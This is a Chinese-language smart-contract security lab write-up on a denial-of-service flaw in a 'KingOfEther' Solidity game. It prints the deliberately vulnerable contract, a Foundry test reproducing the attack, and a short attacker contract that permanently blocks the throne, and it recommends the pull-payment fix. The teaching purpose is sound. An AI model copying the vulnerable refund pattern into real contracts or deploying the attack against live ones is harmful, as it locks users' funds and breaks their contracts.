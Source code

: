 # 拒绝服务攻击  
[DOS.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/DOS.sol)  

**名称：** 拒绝服务攻击  
**描述：**   
KingOfEther合约有一个游戏，用户可以通过发送比当前余额更多的以太币来夺取王位。  
当新用户发送更多以太币时，合约试图将之前的余额返还给上一位“国王”。   

然而，这个机制可能被利用。攻击者的合约(这里称为Attack合约)可以成为国王，  
然后使回退函数回滚或消耗超过规定的gas限制，从而导致KingOfEther合约在尝试将以太币发给上一位国王时失败。

**缓解措施：**  
使用提取支付模式。一种防止这种情况的方法是允许用户提取他们的以太币，而不是直接发送给他们。  

**参考：**  
https://slowmist.medium.com/intro-to-smart-contract-security-audit-dos-e23e9e901e26  

**KingOfEther合约：**  

```solidity
contract KingOfEther {
    address public king;
    uint public balance;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        (bool sent, ) = king.call{value: balance}("");
        require(sent, "Failed to send Ether");

        balance = msg.value;
        king = msg.sender;
    }
}
```
**如何测试：**  
forge test --contracts src/test/DOS.sol -vvvv  

```solidity
// 这是一个测试函数，用于执行DoS攻击的场景
function testDOS() public {
    // 声明了两个地址，分别用于模拟用户Alice和Bob。
    address alice = vm.addr(1);
    address bob = vm.addr(2);

    // Alice和Bob分别获得4个以太币和2个以太币。
    vm.deal(address(alice), 4 ether);
    vm.deal(address(bob), 2 ether);

    // 使用Alice的地址调用prank函数
    vm.prank(alice);

    // Alice试图通过发送1个以太币来夺取KingOfEtherContract的王位
    KingOfEtherContract.claimThrone{value: 1 ether}();

    // 再次调用prank函数，这次使用Bob的地址。
    vm.prank(bob);

    // Bob试图通过发送2个以太币来夺取王位
    KingOfEtherContract.claimThrone{value: 2 ether}();

    // 记录Alice在返回1个以太币后的余额
    console.log("Return 1 ETH to Alice, Alice of balance", address(alice).balance);

    // 调用Attack合约的attack函数，发起DoS攻击，
    // 向KingOfEther合约发送3个以太币。
    AttackerContract.attack{value: 3 ether}();

    // 记录KingOfEther合约的余额
    console.log("Balance of KingOfEtherContract", KingOfEtherContract.balance());

    // 记录一条消息，表明攻击已完成，Alice将无法再次夺取王位。
    console.log("Attack completed, Alice claimthrone again, she will fail");

    // 使用Alice的地址再次调用prank函数，预期会触发回滚。
    vm.prank(alice);
    vm.expectRevert("Failed to send Ether");

    // Alice试图再次夺取王位，但由于DoS攻击而失败。
    KingOfEtherContract.claimThrone{value: 4 ether}();
}

// 这是用于实施DoS攻击的合约
contract Attack {
    KingOfEther kingOfEther;

    // 用于初始化KingOfEther合约的构造函数。
    constructor(KingOfEther _kingOfEther) {
        kingOfEther = KingOfEther(_kingOfEther);
    }

    // 通过向KingOfEther合约发送以太币来夺取王位的攻击函数。
    function attack() public payable {
        kingOfEther.claimThrone{value: msg.value}();
    }
}
```
**红框：在攻击漏洞后，没有人能够赢得这个游戏**  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F250bdebe-a8ed-459a-b62f-bcf5c992c156%2FUntitled.png?table=block&id=17d7c11c-3273-49da-95a4-d6ba9817ad4b&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)

